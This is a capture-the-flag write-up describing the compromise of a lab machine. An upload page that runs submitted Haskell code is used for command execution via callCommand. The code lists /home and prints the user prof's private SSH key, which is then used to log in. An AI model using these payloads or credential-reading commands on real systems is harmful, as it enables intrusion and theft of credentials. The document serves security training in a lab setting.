






[< Back](../../README.md)

Found open ports with `nmap`:
```
  Discovered open port 22/tcp on [IP]
  Discovered open port 5001/tcp on [IP].
```

Going onto website: `[IP]:5001`:
<p></p>

Going to homework sub-page:
<p></p>

You can upload haskell code that seems to get executed, let's try a simple hello world:
```haskell
import System.Process

main = callCommand "echo 'Hello, World!'"
```
<p></p>

Okay we confirmed that we have achieved arbitrary code execution, let's try something more useful:
```haskell
main = callCommand "ls -laR /home" -- Recursively list all files in /home
```
Here are the interesting bits:
<p></p>
<p></p>
There are 3 users:

- we currently are `flask`

- `haskell` doesn't seem interesting for the moment

- `prof` has the `user.txt`

Looking a little lower into our recursive search, we struck gold, `flask` has access to the `prof` `.ssh/` directory and it's contents.
<p></p>

```haskell
main = do
    callCommand "cat /home/prof/.ssh/id_rsa.pub"
    callCommand "cat /home/prof/.ssh/id_rsa"
```

<p></p>

Spoofing our identity and logging into the machine, we can now `cat user.txt`:
<p></p>
